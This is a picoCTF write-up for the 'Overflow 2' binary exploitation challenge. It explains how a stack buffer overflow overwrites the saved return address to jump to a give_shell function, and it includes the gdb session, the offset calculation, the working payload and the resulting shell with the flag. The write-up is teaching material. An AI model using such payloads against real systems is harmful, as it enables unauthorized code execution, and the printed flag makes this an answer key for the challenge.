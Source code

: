 ## Overflow 2 - 70 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.c).

### Hint ###

How can you run the give_shell function?

## Answer ##

### Overview ###

Implement basic [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to call `give_shell`.

### Details ###

I'm going to assume you are familiar with the basics of a buffer overflow. If not, read the write-up for [Overflow 1](overflow1.md).

Let's get started! In this problem we are going to learn how to use the basics of  [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to control the flow of a program and call this function:
```c
/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}
```
#####What makes this vulnerability possible
When we call `vuln()`, a `return address` is pushed onto the stack. This address tells the program what to do when it is finished executing the instructions defined inside `vuln()`. In our example:
```c
int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```
The `return address` would point to `return 0;`, the next instruction after the call to `vuln`. By using the same sort of buffer overflow we did in `overflow 1` we can overflow our buffer into the memory containing the `return address` (the register that stores this is called `eip`). Then we can change the value of the return address to whatever we want (which will be the start of the `give_shell()` function in this case). Once the program is finished executing `vuln()` it will read our fake return address and jump to our shell!

Before we are finished we need a few pieces of information to actually execute the exploit. The first thing we need to know is how far up the stack to write. We can figure this out using `gdb`, a program debuging tool. This is how you start gdb in the shell:
```bash
pico89244@shell:~$ cd /home/overflow2/
pico89244@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb)
```
Next, we need to set the input to our program. To do this we type:
```bash
set args `python -c 'print "A"*30'`
```
Finally, we have to run the program in gdb. To do this we simply type `run`. You should see this output:
```bash
(gdb) set args `python -c 'print "A"*30'`
(gdb) run
Starting program: /home/overflow2/overflow2 `python -c 'print "A"*30'`

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```
See the return address, `0x08004141`? The `4141` are our A values! Since we overwrote half the address with 30 values of `A` as our argument, this tells us that `eip` occupies positions 28-32 above the base of our stack, or 12 above our 16 character buffer. In other words, by writing A*28 and then 1234, 1234 would be our new return address. Now that we know how to change `eip` all we need to know is what location we should change `eip` to. Still in gdb, we can find the address of the `give_shell()` function by running
```bash
(gdb) print &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```
Nice! We now know `0x80484ad` is the address of `give_shell`.

With these two pieces of knowledge, let's exit gdb and construct our final exploit :
```bash
./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
```

We print `A` 28 times to write up the stack to `eip`, then `0x80484ad`(in little edian) to tell the function to jump to `give_shell`. Let's run it:
```
pico89244@shell:/home/overflow2$ ./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ whoami
pico89244
$ cat flag.txt
controlling_%eip_feels_great
```
Sure enough, this gives us our shell and the flag!
### Flag ###

    controlling_%eip_feels_great





